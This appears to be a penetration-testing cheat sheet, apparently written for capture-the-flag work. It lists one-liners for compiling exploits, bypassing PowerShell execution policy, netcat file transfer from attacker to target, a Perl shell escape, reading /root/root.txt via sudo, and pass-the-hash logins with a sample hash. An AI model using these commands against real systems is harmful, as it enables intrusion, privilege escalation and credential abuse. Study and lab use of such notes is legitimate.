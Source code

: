 # **MISC**

Compiling Exploits

```
gcc -o exploit exploit.c#Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linuxi586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe​Cross compilingCompile Windows exploit in Linuxi686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe​Compile Python script to executablewine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile exploit.py
```

Packet Inspection

```
tcpdump tcp port 80 -w output.pcap -i eth0​
```

Powershell bypass

```
Powershell: powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1​
```

Window Exploit Suggester

```
 ./windows-exploit-suggester.py -d 2019-07-20-mssb.xls -i system.txt
```

Finding Auxiliary

```
 ls /usr/share/nmap/scripts/ | grep smb | grep vuln​
```

Netcat

```
From attacker to targetAt targetnc -lvp 6969 > blah.txtAt attacker (method 1)nc x.x.x.x 6969 < blah.txtAt attacker (method 2)cat blah.txt | nc x.x.x.x 6969
```

Perl Exploit

```
Perl Exploitperl —e 'exec "/bin/sh";'sudo perl -F: -lane 'print $F[0]' /root/root.txt
```

Awk

```
Remove duplicate lines:awk '!seen[$0]++' file
```

Searchsploit

```
searchsploit --overflow --exact --mirror 21234​ searchsploit --overflow --exact Gwolle
```

Firewall Rule Enable

```
firewall rule enableufw allow from victimip to any port 80,443 proto tcp​
```

Wordlist Creation

```
Wordlist creation:cewl -w cewl-forum.txt -e -a http://forum.bart.htb
```

PASS the HASH

```
​Pass the hash :pth-winexe -U jenkins/administrator //ip cmd.exepth-winexe -U jenkins/administrator%password //ip cmd.execrackmapexec​ pth-winexe --user=jeeves/administrator%aad3b435b51404e eaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe​
```

Share folder Windows to linux

```
mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow\_other
```